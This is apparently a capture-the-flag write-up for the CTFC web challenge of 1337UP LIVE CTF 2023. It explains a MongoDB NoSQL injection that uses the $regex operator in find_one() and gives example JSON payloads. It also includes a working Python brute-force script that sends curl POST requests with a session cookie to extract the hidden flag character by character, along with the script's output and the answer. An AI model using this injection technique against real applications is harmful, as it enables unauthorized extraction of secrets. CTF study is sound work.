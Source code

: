 ## CTFC
### Description
<sup>Author: Jopraveen</sup><br>
I'm excited to share my minimal CTF platform with you all, <br>take a look! btw it's ImPAWSIBLE to solve all challenges 😺

Note: flag format is INTIGRITI{.*}

`https://ctfc.ctf.intigriti.io` <br>
[CTFC.zip](https://github.com/0xSirawit/Capture-The-Flag-Events/raw/main/1337UP%20LIVE%20CTF%202023/Web%20Challenges/CTFC/CTFC.zip)
### Solution
![CTFC1](<https://raw.githubusercontent.com/0xSirawit/Capture-The-Flag-Events/main/1337UP%20LIVE%20CTF%202023/Web%20Challenges/CTFC/images/ctfc1.png>)
![CTFC2](<https://raw.githubusercontent.com/0xSirawit/Capture-The-Flag-Events/main/1337UP%20LIVE%20CTF%202023/Web%20Challenges/CTFC/images/ctfc2.png>)
After I loged in and played around in the website. It seem like when I submited a flag, The website show me `correct flag` in alert box.<br>
Let's look at the source code which I got from the challenge. Maybe we get some more infomation.

```py
def createChalls():
	db.challs.insert_one({"_id": "28c8edde3d61a0411511d3b1866f0636","challenge_name": "Crack It","category": "hash","challenge_description": "My friend sent me this random string `cc4d73605e19217bf2269a08d22d8ae2` can you identify what it is? , flag format: CTFC{<password>}","challenge_flag": "CTFC{cryptocat}","points": "500","released": "True"})
	db.challs.insert_one({"_id": "665f644e43731ff9db3d341da5c827e1","challenge_name": "MeoW sixty IV","category": "crypto","challenge_description": "hello everyoneeeeeeeee Q1RGQ3tuMHdfZzBfNF90aDNfcjM0TF9mbDRHfQ==, oops sorry my cat ran into my keyboard, and typed these random characters","challenge_flag": "CTFC{n0w_g0_4_th3_r34L_fl4G}","points": "1000","released": "True"})
	db.challs.insert_one({"_id": "38026ed22fc1a91d92b5d2ef93540f20","challenge_name": "ImPAWSIBLE","category": "web","challenge_description": "well, this challenge is not fully created yet, but we have the flag for it","challenge_flag": os.environ['CHALL_FLAG'],"points": "1500","released": "False"})
```

There is the third challenge that hide from us. and there is a comment in `app.py` said `# wait untill mongodb start then create the challs in db`, This is **mongodb** and they use `find_one()` function to check the flag in the database. 

```
chall_details = db.challs.find_one(
			{
			"_id": md5(md5(str(_id).encode('utf-8')).hexdigest().encode('utf-8')).hexdigest(),
			"challenge_flag":submitted_flag
			}
	)
	if chall_details == None:
		return "wrong flag!"
	else:
		return "correct flag!"
```

After I searched info about mongodb and find_one() function.
We can inject [`$regex`](https://www.mongodb.com/docs/manual/reference/operator/query/regex/) query operator in https request.

![CTFC4](https://raw.githubusercontent.com/0xSirawit/Capture-The-Flag-Events/main/1337UP%20LIVE%20CTF%202023/Web%20Challenges/CTFC/images/ctfc4.png)
The idea is **brute force characters** in the third challenge (_id=3) until it is the right character in the flag. If we get `correct flag!`, we will append the character to the payload and use that to continue brute forcing the next character until we get all of the flag characters.<br>
**Example**:
```
First payload: {"_id":"_id:3","challenge_flag":{"$regex":"INTIGRITI{<bruteforcing>.*}"}}
# 'h' get 'correct flag!' response so append 'h' in the payload: INTIGRITI{h<bruteforcing>.*}
Second payload: {"_id":"_id:3","challenge_flag":{"$regex":"INTIGRITI{h<bruteforcing>.*}"}}
# '0' get 'correct flag!' response so append '0' in the payload: INTIGRITI{h0<bruteforcing>.*}
# And so on until we get '}' charecter.
``` 

We know the idea, The Next step is to make a script to do the stuff for us.

```py
import subprocess
testcase = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890_{}"
data = '{"_id":"_id:3","challenge_flag":{"$regex": ".*"}}'
flag = 'INTIGRITI{'
while True:
    for i in testcase:
        data = '{"_id":"_id:3","challenge_flag":{"$regex": "' + flag+i + '.*"}}'
        result = subprocess.run(['curl','-s', '-X','POST','https://ctfc.ctf.intigriti.io/submit_flag','-b','session=eyJ1c2VyIjp7Il9pZCI6ImFjNDBiZDkzYzA2YTQ5ZWViOTVkOWIxZWRkNmIzYjRkIiwidXNlcm5hbWUiOiJ0ZXN0MTIzNCJ9fQ.ZVg2YQ.OwxwhpJzlPsuXH9uuTrLEPNZQQo', '-d', data, "-H" ,'Content-Type: application/json'], stdout=subprocess.PIPE)
        if "correct" in result.stdout.decode(): flag = flag+i
    print(flag)
    if flag[-1] == '}': break 
print('The Flag:',flag)
```
**Result:**
```bash
$ python3 solve_ctfc.py
INTIGRITI{h
INTIGRITI{h0
INTIGRITI{h0w_
INTIGRITI{h0w_1
INTIGRITI{h0w_1s
INTIGRITI{h0w_1s_
INTIGRITI{h0w_1s_7
INTIGRITI{h0w_1s_7h4
INTIGRITI{h0w_1s_7h4t_
INTIGRITI{h0w_1s_7h4t_P
INTIGRITI{h0w_1s_7h4t_PAW
INTIGRITI{h0w_1s_7h4t_PAWS
INTIGRITI{h0w_1s_7h4t_PAWSI
INTIGRITI{h0w_1s_7h4t_PAWSIBL
INTIGRITI{h0w_1s_7h4t_PAWSIBLE}
The Flag: INTIGRITI{h0w_1s_7h4t_PAWSIBLE}
```

> The Flag: INTIGRITI{h0w_1s_7h4t_PAWSIBLE}
{: .prompt-tip }
